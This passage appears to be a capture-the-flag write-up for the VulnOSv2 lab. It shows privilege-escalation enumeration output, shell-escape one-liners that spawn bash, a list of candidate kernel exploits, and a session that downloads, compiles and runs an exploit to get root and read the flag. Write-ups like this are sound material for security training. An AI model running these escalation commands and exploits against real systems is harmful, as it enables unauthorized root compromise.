tcpd 7.6.q-25 Wietse Venema's TCP wrapper utilities
tcpdump 4.5.1-2ubuntu1.2 command-line network traffic analyzer
tdb-tools 1.2.12-1 Trivial Database - bundled binaries
telnet 0.17-36build2 The telnet client
time 1.7-24 GNU time program for measuring CPU resource usage
tmux 1.8-5 terminal multiplexer
tzdata 2016c-0ubuntu0.14.04 time zone and daylight-saving time data
ubuntu-keyring 2012.05.19 GnuPG keys of the Ubuntu archive
ubuntu-release-upgrader-core 1:0.220.8 manage release upgrades
ubuntu-standard 1.325 The Ubuntu standard system
ucf 3.0027+nmu1 Update Configuration File(s): preserve user changes to config files
udev 204-5ubuntu20.18 /dev/ and hotplug management daemon
ufw 0.34~rc-0ubuntu2 program for managing a Netfilter firewall
unattended-upgrades 0.82.1ubuntu2.4 automatic installation of security upgrades
unrar 1:5.0.10-1ubuntu0.14.04.1 Unarchiver for .rar files (non-free version)
unzip 6.0-9ubuntu1.5 De-archiver for .zip files
update-inetd 4.43 inetd configuration file updater
update-manager-core 1:0.196.14 manage release upgrades
update-notifier-common 0.154.1ubuntu1 Files shared between update-notifier and other packages
upstart 1.12.1-0ubuntu4.2 event-based init daemon
ureadahead 0.100.0-16 Read required files in advance
usbutils 1:007-2ubuntu1.1 Linux USB utilities
util-linux 2.20.1-5.1ubuntu20.7 Miscellaneous system utilities
uuid-dev 2.20.1-5.1ubuntu20.7 universally unique id library - headers and static libraries
uuid-runtime 2.20.1-5.1ubuntu20.7 runtime components for the Universally Unique ID library
vim 2:7.4.052-1ubuntu3 Vi IMproved - enhanced vi editor
vim-common 2:7.4.052-1ubuntu3 Vi IMproved - Common files
vim-runtime 2:7.4.052-1ubuntu3 Vi IMproved - Runtime files
vim-tiny 2:7.4.052-1ubuntu3 Vi IMproved - enhanced vi editor - compact version
w3m 0.5.3-15 WWW browsable pager with excellent tables/frames support
watershed 7 reduce superfluous executions of idempotent command
wget 1.15-1ubuntu1.14.04.1 retrieves files from the web
whiptail 0.52.15-2ubuntu5 Displays user-friendly dialog boxes from shell scripts
wireless-regdb 2013.02.13-1ubuntu1 wireless regulatory database
wireless-tools 30~pre9-8ubuntu1 Tools for manipulating Linux Wireless Extensions
wpasupplicant 2.1-0ubuntu1.4 client support for WPA and WPA2 (IEEE 802.11i)
wwwconfig-common 0.2.2 Debian web auto configuration
xauth 1:1.0.7-1ubuntu1 X authentication utility
xkb-data 2.10.1-1ubuntu1 X Keyboard Extension (XKB) configuration data
xml-core 0.13+nmu2 XML infrastructure and XML catalog file support
xz-utils 5.1.1alpha+20120614-2ubuntu2 XZ-format compression utilities
zip 3.0-8 Archiver for .zip files
zlib1g:i386 1:1.2.8.dfsg-1ubuntu1 compression library - runtime
zlib1g-dev:i386 1:1.2.8.dfsg-1ubuntu1 compression library - development
[+] Current processes
USER PID START TIME COMMAND
root 1 13:36 0:04 /sbin/init
root 2 13:36 0:00 [kthreadd]
root 3 13:36 0:04 [ksoftirqd/0]
root 5 13:36 0:00 [kworker/0:0H]
root 7 13:36 0:05 [rcu_sched]
root 8 13:36 0:00 [rcu_bh]
root 9 13:36 0:00 [migration/0]
root 10 13:36 0:04 [watchdog/0]
root 11 13:36 0:00 [khelper]
root 12 13:36 0:00 [kdevtmpfs]
root 13 13:36 0:00 [netns]
root 14 13:36 0:00 [writeback]
root 15 13:36 0:00 [kintegrityd]
root 16 13:36 0:00 [bioset]
root 17 13:36 0:00 [kworker/u3:0]
root 18 13:36 0:00 [kblockd]
root 19 13:36 0:00 [ata_sff]
root 20 13:36 0:00 [khubd]
root 21 13:36 0:00 [md]
root 22 13:36 0:00 [devfreq_wq]
root 23 13:36 4:13 [kworker/0:1]
root 25 13:36 0:00 [khungtaskd]
root 26 13:36 0:00 [kswapd0]
root 27 13:36 0:00 [ksmd]
root 28 13:36 0:00 [khugepaged]
root 29 13:36 0:00 [fsnotify_mark]
root 30 13:36 0:00 [ecryptfs-kthrea]
root 31 13:36 0:00 [crypto]
root 43 13:36 0:00 [kthrotld]
root 44 13:36 0:02 [kworker/u2:1]
root 47 13:36 0:00 [scsi_eh_0]
root 48 13:36 0:00 [scsi_eh_1]
root 69 13:36 0:00 [deferwq]
root 70 13:36 0:00 [charger_manager]
root 120 13:36 0:00 [kpsmoused]
root 122 13:36 0:00 [scsi_eh_2]
root 128 13:36 0:00 [kdmflush]
root 129 13:36 0:00 [bioset]
root 131 13:36 0:00 [kdmflush]
root 133 13:36 0:00 [bioset]
root 149 13:36 0:00 [kworker/u3:1]
root 150 13:36 0:01 [jbd2/dm-0-8]
root 151 13:36 0:00 [ext4-rsv-conver]
root 322 13:36 0:00 upstart-udev-bridge
root 327 13:36 0:00 /lib/systemd/systemd-udevd
root 363 13:36 0:00 [ext4-rsv-conver]
message+ 422 13:36 0:00 dbus-daemon
root 426 13:36 0:00 [kworker/0:2]
root 440 13:36 0:00 /lib/systemd/systemd-logind
syslog 444 13:36 0:00 rsyslogd
root 530 13:36 0:00 upstart-file-bridge
root 569 13:36 0:00 dhclient
root 785 13:36 0:00 upstart-socket-bridge
root 834 13:36 0:00 /sbin/getty
root 837 13:36 0:00 /sbin/getty
root 842 13:36 0:00 /sbin/getty
root 843 13:36 0:00 /sbin/getty
root 846 13:36 0:00 /sbin/getty
root 870 13:36 0:00 /usr/sbin/sshd
root 874 13:36 0:00 acpid
daemon 875 13:36 0:00 atd
root 876 13:36 0:00 cron
mysql 972 13:36 0:53 /usr/sbin/mysqld
postgres 1011 13:36 0:00 /usr/lib/postgresql/9.3/bin/postgres
postgres 1119 13:36 0:00 postgres:
postgres 1120 13:36 0:02 postgres:
postgres 1121 13:36 0:02 postgres:
postgres 1122 13:36 0:00 postgres:
postgres 1123 13:36 0:03 postgres:
irc 1268 13:36 0:07 /usr/sbin/ngircd
root 1330 13:36 0:04 /usr/sbin/apache2
www-data 1334 13:36 0:11 /usr/sbin/apache2
www-data 1335 13:36 0:11 /usr/sbin/apache2
www-data 1336 13:36 0:11 /usr/sbin/apache2
www-data 1337 13:36 0:11 /usr/sbin/apache2
www-data 1338 13:36 0:11 /usr/sbin/apache2
root 1363 13:36 0:00 /sbin/getty
root 1375 13:39 0:00 [kauditd]
www-data 1389 13:39 0:11 /usr/sbin/apache2
root 1393 13:41 0:42 [kworker/u2:2]
www-data 1444 13:46 0:08 /usr/sbin/apache2
www-data 1564 14:07 0:03 /usr/sbin/apache2
root 3996 20:19 0:00 sshd:
webmin 4086 20:19 0:00 sshd:
webmin 4087 20:19 0:00 -sh
webmin 4098 20:20 0:00 python
webmin 4099 20:20 0:00 /bin/bash
webmin 4193 20:34 0:00 python
webmin 6432 20:34 0:00 /bin/sh
webmin 6433 20:34 0:00 ps
webmin 6434 20:34 0:00 awk
[+] Apache Version and Modules
Server version: Apache/2.4.7 (Ubuntu)
Server built: Jan 14 2016 17:45:23
Loaded Modules:
core_module (static)
so_module (static)
watchdog_module (static)
http_module (static)
log_config_module (static)
logio_module (static)
version_module (static)
unixd_module (static)
access_compat_module (shared)
alias_module (shared)
auth_basic_module (shared)
authn_core_module (shared)
authn_file_module (shared)
authz_core_module (shared)
authz_host_module (shared)
authz_user_module (shared)
autoindex_module (shared)
deflate_module (shared)
dir_module (shared)
env_module (shared)
filter_module (shared)
mime_module (shared)
mpm_prefork_module (shared)
negotiation_module (shared)
php5_module (shared)
setenvif_module (shared)
status_module (shared)
Compiled in modules:
core.c
mod_so.c
mod_watchdog.c
http_core.c
mod_log_config.c
mod_logio.c
mod_version.c
mod_unixd.c
[+] Apache Config File
# This is the main Apache server configuration file. It contains the
# configuration directives that give the server its instructions.
# See http://httpd.apache.org/docs/2.4/ for detailed information about
# the directives and /usr/share/doc/apache2/README.Debian about Debian specific
# hints.
#
#
# Summary of how the Apache 2 configuration works in Debian:
# The Apache 2 web server configuration in Debian is quite different to
# upstream's suggested way to configure the web server. This is because Debian's
# default Apache2 installation attempts to make adding and removing modules,
# virtual hosts, and extra configuration directives as flexible as possible, in
# order to make automating the changes and administering the server as easy as
# possible.
# It is split into several files forming the configuration hierarchy outlined
# below, all located in the /etc/apache2/ directory:
#
# /etc/apache2/
# |-- apache2.conf
# | `-- ports.conf
# |-- mods-enabled
# | |-- *.load
# | `-- *.conf
# |-- conf-enabled
# | `-- *.conf
# `-- sites-enabled
# `-- *.conf
#
#
# * apache2.conf is the main configuration file (this file). It puts the pieces
# together by including all remaining configuration files when starting up the
# web server.
#
# * ports.conf is always included from the main configuration file. It is
# supposed to determine listening ports for incoming connections which can be
# customized anytime.
#
# * Configuration files in the mods-enabled/, conf-enabled/ and sites-enabled/
# directories contain particular configuration snippets which manage modules,
# global configuration fragments, or virtual host configurations,
# respectively.
#
# They are activated by symlinking available configuration files from their
# respective *-available/ counterparts. These should be managed by using our
# helpers a2enmod/a2dismod, a2ensite/a2dissite and a2enconf/a2disconf. See
# their respective man pages for detailed information.
#
# * The binary is called apache2. Due to the use of environment variables, in
# the default configuration, apache2 needs to be started/stopped with
# /etc/init.d/apache2 or apache2ctl. Calling /usr/bin/apache2 directly will not
# work with the default configuration.
# Global configuration
#
#
# ServerRoot: The top of the directory tree under which the server's
# configuration, error, and log files are kept.
#
# NOTE! If you intend to place this on an NFS (or otherwise network)
# mounted filesystem then please read the Mutex documentation (available
# at );
# you will save yourself a lot of trouble.
#
# Do NOT add a slash at the end of the directory path.
#
#ServerRoot "/etc/apache2"
#
# The accept serialization lock file MUST BE STORED ON A LOCAL DISK.
#
Mutex file:${APACHE_LOCK_DIR} default
#
# PidFile: The file in which the server should record its process
# identification number when it starts.
# This needs to be set in /etc/apache2/envvars
#
PidFile ${APACHE_PID_FILE}
#
# Timeout: The number of seconds before receives and sends time out.
#
Timeout 300
#
# KeepAlive: Whether or not to allow persistent connections (more than
# one request per connection). Set to "Off" to deactivate.
#
KeepAlive On
#
# MaxKeepAliveRequests: The maximum number of requests to allow
# during a persistent connection. Set to 0 to allow an unlimited amount.
# We recommend you leave this number high, for maximum performance.
#
MaxKeepAliveRequests 100
#
# KeepAliveTimeout: Number of seconds to wait for the next request from the
# same client on the same connection.
#
KeepAliveTimeout 5
# These need to be set in /etc/apache2/envvars
User ${APACHE_RUN_USER}
Group ${APACHE_RUN_GROUP}
#
# HostnameLookups: Log the names of clients or just their IP addresses
# e.g., www.apache.org (on) or 204.62.129.132 (off).
# The default is off because it'd be overall better for the net if people
# had to knowingly turn this feature on, since enabling it means that
# each client request will result in AT LEAST one lookup request to the
# nameserver.
#
HostnameLookups Off
# ErrorLog: The location of the error log file.
# If you do not specify an ErrorLog directive within a
# container, error messages relating to that virtual host will be
# logged here. If you *do* define an error logfile for a
# container, that host's errors will be logged there and not here.
#
ErrorLog ${APACHE_LOG_DIR}/error.log
#
# LogLevel: Control the severity of messages logged to the error_log.
# Available values: trace8, ..., trace1, debug, info, notice, warn,
# error, crit, alert, emerg.
# It is also possible to configure the log level for particular modules, e.g.
# "LogLevel info ssl:warn"
#
LogLevel warn
# Include module configuration:
IncludeOptional mods-enabled/*.load
IncludeOptional mods-enabled/*.conf
# Include list of ports to listen on
Include ports.conf
# Sets the default security model of the Apache2 HTTPD server. It does
# not allow access to the root filesystem outside of /usr/share and /var/www.
# The former is used by web applications packaged in Debian,
# the latter may be used for local directories served by the web server. If
# your system is serving content from a sub-directory in /srv you must allow
# access here, or in any related virtual host.
AllowOverride None
Require all granted
Require all denied
#
# The following directives define some format nicknames for use with
# a CustomLog directive.
#
# These deviate from the Common Log Format definitions in that they use %O
# (the actual bytes sent including headers) instead of %b (the size of the
# requested file), because the latter makes it impossible to detect partial
# requests.
#
# Note that the use of %{X-Forwarded-For}i instead of %h is not recommended.
# Use mod_remoteip instead.
#
LogFormat "%v:%p %h %l %u %t \"%r\" %>s %O \"%{Referer}i\" \"%{User-Agent}i\"" vhost_combined
LogFormat "%h %l %u %t \"%r\" %>s %O \"%{Referer}i\" \"%{User-Agent}i\"" combined
LogFormat "%h %l %u %t \"%r\" %>s %O" common
LogFormat "%{Referer}i -> %U" referer
LogFormat "%{User-agent}i" agent
# Include of directories ignores editors' and dpkg's backup files,
# see README.Debian for details.
# Include generic snippets of statements
IncludeOptional conf-enabled/*.conf
# Include the virtual host configurations:
IncludeOptional sites-enabled/*.conf
# vim: syntax=apache ts=4 sw=4 sts=4 sr noet
[+] Sudo Version (Check out http://www.exploit-db.com/search/?action=search&filter_page=1&filter_description=sudo)
Sudo version 1.8.9p5
Sudoers policy plugin version 1.8.9p5
Sudoers file grammar version 43
Sudoers I/O plugin version 1.8.9p5
[*] IDENTIFYING PROCESSES AND PACKAGES RUNNING AS ROOT OR OTHER SUPERUSER...
root 151 13:36 0:00 [ext4-rsv-conver]
root 843 13:36 0:00 /sbin/getty
root 29 13:36 0:00 [fsnotify_mark]
root 21 13:36 0:00 [md]
root 1375 13:39 0:00 [kauditd]
root 1363 13:36 0:00 /sbin/getty
root 426 13:36 0:00 [kworker/0:2]
root 22 13:36 0:00 [devfreq_wq]
root 150 13:36 0:01 [jbd2/dm-0-8]
root 133 13:36 0:00 [bioset]
root 874 13:36 0:00 acpid
Possible Related Packages:
acpid 1:2.0.21-1ubuntu2 Advanced Configuration and Power Interface event daemon
root 5 13:36 0:00 [kworker/0:0H]
root 837 13:36 0:00 /sbin/getty
root 12 13:36 0:00 [kdevtmpfs]
root 47 13:36 0:00 [scsi_eh_0]
root 25 13:36 0:00 [khungtaskd]
root 11 13:36 0:00 [khelper]
root 44 13:36 0:02 [kworker/u2:1]
root 10 13:36 0:04 [watchdog/0]
root 3996 20:19 0:00 sshd:
root 70 13:36 0:00 [charger_manager]
root 48 13:36 0:00 [scsi_eh_1]
root 569 13:36 0:00 dhclient
root 28 13:36 0:00 [khugepaged]
root 20 13:36 0:00 [khubd]
root 120 13:36 0:00 [kpsmoused]
root 9 13:36 0:00 [migration/0]
root 131 13:36 0:00 [kdmflush]
root 834 13:36 0:00 /sbin/getty
root 363 13:36 0:00 [ext4-rsv-conver]
root 440 13:36 0:00 /lib/systemd/systemd-logind
root 322 13:36 0:00 upstart-udev-bridge
root 30 13:36 0:00 [ecryptfs-kthrea]
root 846 13:36 0:00 /sbin/getty
root 128 13:36 0:00 [kdmflush]
root 1393 13:41 0:42 [kworker/u2:2]
root 8 13:36 0:00 [rcu_bh]
root 17 13:36 0:00 [kworker/u3:0]
root 327 13:36 0:00 /lib/systemd/systemd-udevd
root 1 13:36 0:04 /sbin/init
Possible Related Packages:
busybox-initramfs 1:1.21.0-1ubuntu1 Standalone shell setup for initramfs
init-system-helpers 1.14 helper tools for all init systems
initramfs-tools 0.103ubuntu4.3 tools for generating an initramfs
initramfs-tools-bin 0.103ubuntu4.3 binaries used by initramfs-tools
initscripts 2.88dsf-41ubuntu6.3 scripts for initializing and shutting down the system
insserv 1.14.0-5ubuntu2 boot sequence organizer using LSB init.d script dependency information
libklibc 2.0.3-0ubuntu1 minimal libc subset for use with initramfs
lsb-base 4.1+Debian11ubuntu6 Linux Standard Base 4.1 init script functionality
module-init-tools 15-0ubuntu6 transitional dummy package (module-init-tools to kmod)
ncurses-base 5.9+20140118-1ubuntu1 basic terminal type definitions
ncurses-term 5.9+20140118-1ubuntu1 additional terminal type definitions
sysvinit-utils 2.88dsf-41ubuntu6.3 System-V-like utilities
upstart 1.12.1-0ubuntu4.2 event-based init daemon
root 1330 13:36 0:04 /usr/sbin/apache2
Possible Related Packages:
apache2 2.4.7-1ubuntu4.9 Apache HTTP Server
apache2-bin 2.4.7-1ubuntu4.9 Apache HTTP Server (binary files and modules)
apache2-data 2.4.7-1ubuntu4.9 Apache HTTP Server (common files)
libapache2-mod-auth-mysql 4.3.9-13.1ubuntu3 Apache 2 module for MySQL authentication
libapache2-mod-php5 5.5.9+dfsg-1ubuntu4.14 server-side, HTML-embedded scripting language (Apache 2 module)
root 14 13:36 0:00 [writeback]
root 876 13:36 0:00 cron
Possible Related Packages:
cron 3.0pl1-124ubuntu2 process scheduling daemon
root 785 13:36 0:00 upstart-socket-bridge
root 530 13:36 0:00 upstart-file-bridge
root 870 13:36 0:00 /usr/sbin/sshd
root 129 13:36 0:00 [bioset]
root 18 13:36 0:00 [kblockd]
root 842 13:36 0:00 /sbin/getty
root 27 13:36 0:00 [ksmd]
root 16 13:36 0:00 [bioset]
root 26 13:36 0:00 [kswapd0]
root 122 13:36 0:00 [scsi_eh_2]
root 149 13:36 0:00 [kworker/u3:1]
root 15 13:36 0:00 [kintegrityd]
root 7 13:36 0:05 [rcu_sched]
root 2 13:36 0:00 [kthreadd]
root 3 13:36 0:04 [ksoftirqd/0]
root 19 13:36 0:00 [ata_sff]
root 13 13:36 0:00 [netns]
root 69 13:36 0:00 [deferwq]
root 23 13:36 4:13 [kworker/0:1]
root 43 13:36 0:00 [kthrotld]
root 31 13:36 0:00 [crypto]
[*] ENUMERATING INSTALLED LANGUAGES/TOOLS FOR SPLOIT BUILDING...
[+] Installed Tools
/usr/bin/awk
/usr/bin/perl
/usr/bin/python
/usr/bin/gcc
/usr/bin/cc
/usr/bin/vi
/usr/bin/vim
/usr/bin/find
/bin/netcat
/bin/nc
/usr/bin/wget
/usr/bin/ftp
[+] Related Shell Escape Sequences...
vi--> :!bash
vi--> :set shell=/bin/bash:shell
vi--> :!bash
vi--> :set shell=/bin/bash:shell
awk--> awk 'BEGIN {system("/bin/bash")}'
find--> find / -exec /usr/bin/awk 'BEGIN {system("/bin/bash")}' \;
perl--> perl -e 'exec "/bin/bash";'
[*] FINDING RELEVENT PRIVILEGE ESCALATION EXPLOITS...
Note: Exploits relying on a compile/scripting language not detected on this system are marked with a '**' but should still be tested!
The following exploits are ranked higher in probability of success because this script detected a related running process, OS, or mounted file system
- MySQL 4.x/5.0 User-Defined Function Local Privilege Escalation Exploit || http://www.exploit-db.com/exploits/1518 || Language=c
The following exploits are applicable to this kernel version and should be investigated as well
- Kernel ia32syscall Emulation Privilege Escalation || http://www.exploit-db.com/exploits/15023 || Language=c
- Sendpage Local Privilege Escalation || http://www.exploit-db.com/exploits/19933 || Language=ruby**
- CAP_SYS_ADMIN to Root Exploit 2 (32 and 64-bit) || http://www.exploit-db.com/exploits/15944 || Language=c
- CAP_SYS_ADMIN to root Exploit || http://www.exploit-db.com/exploits/15916 || Language=c
- MySQL 4.x/5.0 User-Defined Function Local Privilege Escalation Exploit || http://www.exploit-db.com/exploits/1518 || Language=c
- open-time Capability file_ns_capable() Privilege Escalation || http://www.exploit-db.com/exploits/25450 || Language=c
- open-time Capability file_ns_capable() - Privilege Escalation Vulnerability || http://www.exploit-db.com/exploits/25307 || Language=c
Finished
=================================================================================================
I looked for kernel exploits on the net and I found this one:
I downloaded the exploit, moved it to victim's machine, compiled it and ran it:
[GandoPC 192.168.43.3]# wget https://www.exploit-db.com/download/37292.c --2018-10-23 16:14:41-- https://www.exploit-db.com/download/37292.c Loaded CA certificate '/etc/ssl/certs/ca-certificates.crt' Resolving www.exploit-db.com (www.exploit-db.com)... 192.124.249.8 Connecting to www.exploit-db.com (www.exploit-db.com)|192.124.249.8|:443... connected. HTTP request sent, awaiting response... 200 OK Length: 5119 (5.0K) [application/txt] Saving to: ‘37292.c’ 37292.c 100%[=====================================================================================================>] 5.00K --.-KB/s in 0s 2018-10-23 16:14:41 (128 MB/s) - ‘37292.c’ saved [5119/5119] [GandoPC 192.168.43.3]# cp 37292.c /srv/http/ webmin@VulnOSv2:/tmp$ gcc 37292.c -o exploit webmin@VulnOSv2:/tmp$ ls -aul total 28 drwxrwxrwx 2 root root 4096 Oct 23 15:48 . drwxr-xr-x 21 root root 4096 Oct 22 20:22 .. -rw-rw-r-- 1 webmin webmin 5119 Oct 23 15:48 37292.c -rwxrwxr-x 1 webmin webmin 12193 Oct 23 15:48 exploit webmin@VulnOSv2:/tmp$ ./exploit spawning threads mount #1 mount #2 child threads done /etc/ld.so.preload created creating shared library # whoami root # pwd /tmp
Flag:
# cd /root # ls -aul total 36 drwx------ 3 root root 4096 Oct 23 15:49 . drwxr-xr-x 21 root root 4096 Oct 22 20:22 .. -rw------- 1 root root 9 May 4 2016 .bash_history -rw-r--r-- 1 root root 3106 May 4 2016 .bashrc drwx------ 2 root root 4096 May 2 2016 .cache -rw-r--r-- 1 root root 140 May 4 2016 .profile -rw------- 1 root root 3 May 2 2016 .psql_history -rw------- 1 root root 735 May 4 2016 .viminfo -rw-r--r-- 1 root root 165 May 4 2016 flag.txt # cat flag.txt Hello and welcome. You successfully compromised the company "JABC" and the server completely !! Congratulations !!! Hope you enjoyed it. What do you think of A.I.?